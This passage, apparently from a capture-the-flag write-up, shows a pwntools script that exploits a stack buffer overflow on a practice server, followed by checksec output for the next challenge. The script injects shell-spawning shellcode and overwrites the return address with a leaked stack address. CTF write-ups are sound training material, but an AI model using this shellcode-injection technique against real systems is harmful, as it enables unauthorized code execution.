 ```python
    else:
        return remote("ctf.cybr.club", 2001)


def main():
    r = conn()
    stack_addr = int(re.search("\((.*)\)", r.readline().decode('ascii')).group(1),16)
    payload = asm(shellcraft.i386.linux.sh())
    payload += b"A" * (140 - len(payload)) # fill data buffer
    payload += p32(stack_addr)
    r.sendline(payload)
    r.sendline("cat flag.txt;exit;")
    print(re.search("(FLAG{.*})",r.recvall().decode()).group(1))


if __name__ == "__main__":
    main()
```

flag: `FLAG{3x3cu74bl3_574ck_11d512}`

## pwn3

We don't get challenge sources on pwn3 so its time to learn to love reversing.  I'll be using [Ghidra](https://ghidra-sre.org/) to reverse these.  

```text
❯ checksec chall
[*] '/home/sky/Documents/binex/rop_win/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
